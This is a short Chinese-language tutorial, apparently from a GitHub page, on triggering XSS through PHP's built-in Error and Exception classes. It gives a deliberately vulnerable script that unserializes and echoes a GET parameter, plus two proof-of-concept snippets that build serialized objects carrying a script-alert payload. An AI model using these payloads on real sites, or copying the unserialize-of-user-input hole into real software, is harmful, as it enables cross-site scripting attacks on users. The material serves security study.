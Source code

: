 # 利用php内置类Error/Exception进行xss

## Error

php7中存在一个Error类,它里面存在一个toString魔术方法,在一定的情况下能够造成xss漏洞

测试代码

```
<?php
highlight_file(__FILE__);
$a = unserialize($_GET['lemon']);
echo $a;
```

poc

```
<?php
$a = new Error("<script>alert('hacker')</script>");
echo urlencode(serialize($a));
```

效果:

![image-20210529120649074](images/1.png)

## Exception

适用于php5、7版本,能够造成XSS漏洞

测试代码不变

poc

```
<?php
$a = new Exception("<script>alert(/hacker/)</script>");
echo urlencode(serialize($a));
```

![image-20210529121318703](images/2.png)
